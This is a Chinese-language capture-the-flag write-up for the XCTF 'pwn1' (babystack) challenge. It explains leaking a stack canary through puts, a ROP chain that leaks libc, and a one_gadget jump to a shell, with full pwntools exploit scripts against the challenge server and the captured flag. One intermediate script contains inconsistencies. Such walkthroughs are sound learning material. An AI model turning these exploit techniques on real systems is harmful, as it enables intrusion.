


# pwn1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=38dbb74d-2134-4fba-85c1-2fd69db11191_2&task_category_id=2)

我的电脑既无法运行elf，也无法安装虚拟机；另一个shell可以运行elf也能用pwntools，但是无法连上官方的nc地址……两个卧龙凤雏怎么聚在一起了。所以就剖析[writeup](https://bbs.pediy.com/thread-254373.htm)好了。

当然自己能做的还是会做着试试的。ghidra反编译程序再找到main函数。



运行就是简单的打印内容程序。



checksec如下。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)


64位小端，老朋友canary又来了。分析一下main函数看看采取什么行动。第30行明显栈溢出，local_98就136字节长，read直接读取256个字节。栈溢出首先想到改写返回地址到system这类的函数中，但是canary很烦。canary为local_10,需要想个办法猜出canary的地址。

canary可以爆破，但此处有更简单的办法。注意18，19行。当我们选择2选项时,程序会使用puts打印出local_98的全部内容。

- ### puts
  > 把一个字符串写入到标准输出 stdout，直到空字符（'\0'），但不包括空字符。换行符会被追加到输出中。
  - 声明：int puts(const char *str)
  - 参数：str -- 这是要被写入的 C 字符串。

正常存储字符串末尾肯定会有\0，但我们就是不能正常。这里可以栈溢出，canary又和local_98挨着。想到了啥？我们可以计算local_98和canary之间的偏移，也就是0x88，然后填过去。等puts打印字符串时会从local_98的字符一直打印到canary，因为中间的空字符没了。目前泄漏canary的exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(7).rjust(8,b'\x00'))
```

64位程序应该是8位啊，怎么这里只接收了7位？因为sendline会在payload后面补上一个回车，也就是\n。\n当然也算在我们的输入内，正是这个\n，覆盖掉了canary自己的\0（别忘了canary是以小端正常存储的，末尾还有个\0），让puts得以把canary也包进来。所以canary的最后一位没有用，接收7位然后rjust对齐就行了。

接下来就要考虑返回到哪个函数了。搜索程序本身，既没有system也没有/bin/sh。又到了rop的时刻。给了libc，开始找偏移。一般用的是puts这个好朋友，因为puts只有一个参数，用起来很简单。64位传参就不像32位一样一股脑往栈上塞了。当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。puts的一个参数要放到rdi里。用ROPgadget找一下心仪的的gadget。

- ROPgadget --binary babystack --only "pop|ret" | grep 'rdi'
  > 0x0000000000400a93 : pop rdi ; ret

这个不错，完美符合要求。我们的脚本变成了这样：

```python
from pwn import *
elf = ELF("./babystack")
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(8).rjust(8,b'\x00'))
pop_rdi=0x0400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
```

理解一下payload1的rop链构成（可能不对，如果错了请帮我指出，我一直懵rop链）。b'a'\*0x88+p64(canary)+b'a'*8就是0x88个垃圾字符+之前泄露的canary+没啥用的rbp+操控参数的pop_rdi gadget+传入puts got地址作为参数+调用puts+将main作为返回地址方便下次利用漏洞。

pop是出栈指令，把 ESP 指向的堆栈元素内容复制到一个 16 位或 32 位目的操作数中，再增加 ESP 的值。这里pop rdi就相当于把后面跟着的puts_got地址放进了rdi里，这样就能成功调用puts了。或许放张图更好理解。


我们在栈上搞的一堆rop链是往下增长的。另外这张图是32位的，所以对应到64位的Argument of Next Callee Function处是我们的pop rdi语句。现在应该可以理解这个rop链了。

关于为啥要传puts_got，只需要简略理解puts_got在运行时指向了libc中puts的地址，也就是我们的目标；puts_plt可以调用到puts。这就涉及到plt和got表了，我也不是很懂所以就靠你自己去搜了。

拿到puts真实地址就可以开始计算偏移了。虽然libc的地址会随机变化，但里面的标志无论何时偏移都是一样的。算偏移可以用pwntools自带的ELF加载libc，或者运行一次exp打印出来地址然后放到在线libc库搜索。

最后一步决定往哪返回。上面的教程找到了libc中的一个one_gadget，也就是直接带你调用execve('/bin/sh', NULL, NULL)的gadget。[one_gadget](https://github.com/david942j/one_gadget)其实是个工具，就是帮你找这种gadget的。放出来最终payload。（直接用别人的了，到这一步我没法做了）

```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
 
p = remote('61.147.171.105','56381')
#p = process("./babystack")
 
execve = 0x45216
main_addr = 0x400908
puts_got = 6295464
puts_plt = 4195984
pop_rdi = 0x0400a93
 
payload = b'a'*0x88
p.sendlineafter(">> ","1")
p.sendline(payload)
 
p.sendlineafter(">> ","2")
p.recvuntil(b'a'*0x88+b'\n')
 
canary = u64(p.recv(7).rjust(8,b'\x00'))
 
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
 
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,b'\x00'))
 
execve_addr = puts_addr - (456336 - execve)
 
payload2 = b'a'*0x88+p64(canary)+b'a'*8 + p64(execve_addr)
 
p.sendlineafter(">> ","1")
p.sendline(payload2)
p.sendlineafter(">> ","3")
p.interactive()
```

当然用普通方法在libc里找/bin/sh再调用system也是可以的。具体[看这](https://blog.csdn.net/Y_peak/article/details/114234059)。原理只要你看懂第一个rop链就能懂了。

我突然意识到我可以在能运行elf的机子上拿出需要的地址再放到能连接nc的机子上运行。于是我拿到flag了。（＾∇＾）


- ### Flag
  > cyberpeace{0c15875a74f4ef361b8f05004c722e19}